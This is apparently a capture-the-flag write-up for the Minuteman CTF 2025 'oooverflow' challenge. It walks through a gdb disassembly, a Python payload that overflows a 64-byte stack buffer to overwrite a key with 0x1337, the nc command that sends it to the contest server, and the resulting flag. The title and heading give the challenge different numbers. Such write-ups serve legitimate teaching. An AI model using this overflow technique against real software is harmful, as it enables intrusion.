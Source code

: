 ```yaml
---
name: minuteman-2025-oooverflow-1
title: minuteman ctf 2025 - oooverflow-1
number: 04
subtitle: writeup for a stack-based buffer overflow
date: 10/20/25
---
```

# Minuteman CTF 2025 Oooverflow-2
## Problem Overview
The intended flow of the program is that the program will prompt the user to solve a riddle, copy the inputted answer into the buffer, then check a stored key with the value 0x1234 against 0x1337, and if they match, call the `win()` function and print out the flag.

Since 0x1234 notably doesn't equal 0x1337, we will have to change that or otherwise be able to call the win function.
## The Vulnerability
Given that this challenge is marked as a buffer overflow (and named oooverflow), a buffer overflow vulnerability seems likely. Looking at the given C code, we can see that there is no length checking on the input, however, `fgets` will only copy the first 0x64 bytes from standard input into the answer buffer, which has a size of 64 - not 0x64! So, the program reads more than it allocates for, so we can use that extra input space to change the key!
## Solution
The first step is to figure how how much we need to overflow by. Looking at the disassembly of the C code in gdb we see this:
```x86asm
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000402f7e <+0>:     push   rbp
   0x0000000000402f7f <+1>:     mov    rbp,rsp
   0x0000000000402f82 <+4>:     sub    rsp,0x50
   0x0000000000402f86 <+8>:     mov    WORD PTR [rbp-0x2],0x1234
   0x0000000000402f8c <+14>:    lea    rax,[rip+0x7c08d]        # 0x47f020
   0x0000000000402f93 <+21>:    mov    rdi,rax
   0x0000000000402f96 <+24>:    mov    eax,0x0
   0x0000000000402f9b <+29>:    call   0x406610 <printf>
   0x0000000000402fa0 <+34>:    mov    rdx,QWORD PTR [rip+0xb4711]        # 0x4b76b8 <stdin>
   0x0000000000402fa7 <+41>:    lea    rax,[rbp-0x50]
   0x0000000000402fab <+45>:    mov    esi,0x64
   0x0000000000402fb0 <+50>:    mov    rdi,rax
   0x0000000000402fb3 <+53>:    call   0x40c7f0 <fgets>
   0x0000000000402fb8 <+58>:    movzx  eax,WORD PTR [rbp-0x2]
   0x0000000000402fbc <+62>:    lea    rdx,[rip+0x7c097]        # 0x47f05a
   0x0000000000402fc3 <+69>:    mov    esi,eax
   0x0000000000402fc5 <+71>:    mov    rdi,rdx
   0x0000000000402fc8 <+74>:    mov    eax,0x0
   0x0000000000402fcd <+79>:    call   0x406610 <printf>
   0x0000000000402fd2 <+84>:    cmp    WORD PTR [rbp-0x2],0x1337
   0x0000000000402fd8 <+90>:    jne    0x402ff5 <main+119>
   0x0000000000402fda <+92>:    lea    rax,[rip+0x7c086]        # 0x47f067
   0x0000000000402fe1 <+99>:    mov    rdi,rax
   0x0000000000402fe4 <+102>:   mov    eax,0x0
   0x0000000000402fe9 <+107>:   call   0x406610 <printf>
   0x0000000000402fee <+112>:   call   0x402f68 <win>
   0x0000000000402ff3 <+117>:   jmp    0x403009 <main+139>
   0x0000000000402ff5 <+119>:   lea    rax,[rip+0x7c07c]        # 0x47f078
   0x0000000000402ffc <+126>:   mov    rdi,rax
   0x0000000000402fff <+129>:   mov    eax,0x0
   0x0000000000403004 <+134>:   call   0x406610 <printf>
   0x0000000000403009 <+139>:   mov    eax,0x0
   0x000000000040300e <+144>:   leave
   0x000000000040300f <+145>:   ret
End of assembler dump.
```
At offset \<+4>, we are told that 0x50 bytes are allocated for the stack. Offset \<+8> tells us that our flag takes up the 2 bytes directly below rbp. If we then make our input some junk for 0x4e (0x50 - 0x2) bytes followed by our key 0x1337, we should be able to change the existing key's value and call the `win()` function.

```python
import struct
import sys

payload = b'A'*(0x50 - 0x2) + struct.pack("<Q", 0x1337)

sys.stdout.buffer.write(payload)
```

Aaaand....
```
-> python3 ./sol.py | nc pwn.minuteman.umasscybersec.org 19467
Tell me, voyager, what is simple, and yet also a riddle: key = 0x1337
That's it!MINUTEMAN{m4n_th4t_m1ddl3_5ucks_6615cf64314a6}
```
ta-da!